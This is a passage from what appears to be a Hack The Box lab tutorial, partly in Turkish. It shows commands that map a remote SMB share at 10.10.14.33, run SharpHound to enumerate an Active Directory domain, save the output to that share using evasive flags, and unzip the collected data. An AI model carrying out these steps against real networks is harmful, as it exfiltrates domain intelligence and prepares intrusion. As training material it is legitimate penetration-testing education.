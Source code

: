 Şimdi paylaşılan klasöre bağlanalım ve **SharpHound** çıktısını oraya kaydedelim:


#### Connect to the shared folder with username and password

```
C:\htb> net use \\10.10.14.33\share /user:test test
The command completed successfully.
```


#### SharpHound'u çalıştırma ve çıktıyı paylaşılan bir klasöre kaydetme

```
C:\htb> C:\Tools\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames

2023-01-11T11:31:43.4459137-06:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-01-11T11:31:43.5998704-06:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:43.6311043-06:00|INFORMATION|Initializing SharpHound at 11:31 AM on 1/11/2023
2023-01-11T11:31:55.0551988-06:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-01-11T11:31:55.2710788-06:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.HTB
2023-01-11T11:31:55.3089182-06:00|INFORMATION|Producer has finished, closing LDAP channel
2023-01-11T11:31:55.3089182-06:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-01-11T11:32:25.7331485-06:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2023-01-11T11:32:41.7321172-06:00|INFORMATION|Consumers finished, closing output channel
2023-01-11T11:32:41.7633662-06:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-01-11T11:32:52.2310202-06:00|INFORMATION|Status: 94 objects finished (+94 1.678571)/s -- Using 42 MB RAM
2023-01-11T11:32:52.2466171-06:00|INFORMATION|Enumeration finished in 00:00:56.9776773
2023-01-11T11:33:09.4855302-06:00|INFORMATION|SharpHound Enumeration Completed at 11:33 AM on 1/11/2023! Happy Graphing!
```


#### Unzipping the file

```
unzip ./HTB_20230111113143_5yssigbd.w3f
Archive:  ./HTB_20230111113143_5yssigbd.w3f
[./HTB_20230111113143_5yssigbd.w3f] HTB_20230111113143_hjclkslu.2in password:
  inflating: HTB_20230111113143_hjclkslu.2in
  inflating: HTB_20230111113143_hk3lxtz3.1ku
  inflating: HTB_20230111113143_kghttiwp.jbq
  inflating: HTB_20230111113143_kdg5svst.4sc
  inflating: HTB_20230111113143_qeugxqep.lya
  inflating: HTB_20230111113143_xsxzlxht.awa
  inflating: HTB_20230111113143_51zkhw0e.bth
```
